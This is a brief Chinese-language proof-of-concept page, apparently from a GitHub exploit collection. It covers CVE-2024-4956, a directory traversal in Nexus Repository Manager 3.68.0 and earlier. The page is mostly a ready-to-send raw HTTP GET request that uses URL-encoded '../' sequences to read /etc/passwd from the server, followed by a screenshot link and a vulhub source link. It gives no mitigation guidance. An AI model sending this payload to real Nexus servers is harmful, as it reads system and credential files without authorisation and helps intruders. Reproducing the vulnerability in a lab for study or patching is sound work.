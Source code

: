 ## Nexus未授权目录穿越漏洞(CVE-2024-4956)

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。

其3.68.0及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。




## poc

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![image-20240523225823421](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405232258493.png)



## 漏洞来源

- https://github.com/vulhub/vulhub/blob/master/nexus/CVE-2024-4956/README.zh-cn.md

  